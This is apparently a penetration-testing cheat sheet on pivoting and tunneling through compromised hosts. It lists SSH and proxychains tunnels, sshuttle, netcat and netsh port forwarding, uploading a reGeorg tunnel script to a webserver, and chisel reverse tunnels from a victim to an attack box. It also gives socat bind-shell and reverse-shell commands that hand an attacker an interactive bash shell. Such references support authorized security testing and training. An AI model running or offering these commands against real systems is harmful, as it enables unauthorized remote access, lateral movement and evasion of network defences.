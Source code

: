 ## Check if your tunnel is active and running

`nc -z localhost <port> || echo 'no tunnel open'`
`netstat -lpnt | grep <port>| grep ssh`
`ps aux | grep ssh`
`ss -ntlp`

## SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: `ssh -D localhost:<local port> -f -N user@localhost -p <Target Port>`
2. Setup ProxyChains. Edit the following config file `/etc/proxychains.conf`
3. Add the following line into the config: `Socks5 127.0.0.1 <Local Port>`
4. Run commands through the tunnel: `proxychains <command>`

### SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

`sshuttle -r root@172.21.0.0 10.2.2.0/24`
`sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # Daemon mode`
`sshuttle -D --dns -vr user@yourserver.com 0/0 --ssh-cmd 'ssh -i /your/key/path.pem' # Daemon mode with DNS`

Working with your .ssh/config:
```
sshuttle --dns -vr user@server 0/0 --ssh-cmd 'ssh jumpbox'
sshuttle --dns -r myserver 0/0 -x <server-IP>
```

# Socat

## Bind Shell

```
victim> socat TCP-LISTEN:443,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:443
```

## Reverse Shell

```
attacker> socat TCP-LISTEN:443,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:443 EXEC:bash,pty,stderr,setsid,sigint,sane
```

# Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc "target" "pivot-port" 1>pivot

## netsh port forwarding

```
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```

### Ncat Http Proxy

`ncat -vv --listen 3128 --proxy-type http`

### Ncat Port Forwarder

1. `mknod pivot p`
2. `nc -l -p < port to listen on> 0<pivot | nc <target> <pivot-port> 1>pivot`

# reGeorg

Source: https://github.com/sensepost/reGeorg

Note: reGeorg requires Python 2.7 and the following modules:

urllib3 - HTTP library with thread-safe connection pooling, file post, and more.

1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver
2. Configure the tool to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
```
python reGeorgSocksProxy.py -p 8080 -u http://upload.megacorpone.net:8080/tunnel/tunnel.jsp
```

# Chisel

Typical use. Examples assume attack box is 10.10.14.3, client is running from 10.10.10.10.

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim:

|Command|Notes|
|---|---|
|`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80`|Listen on Kali 80, forward to localhost port 80 on client|
|`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80`|Listen on Kali 4444, forward to 10.10.10.240 port 80|
|`chisel client 10.10.14.3:8000 R:socks`|Create SOCKS5 listener on 1080 on Kali, proxy through client|


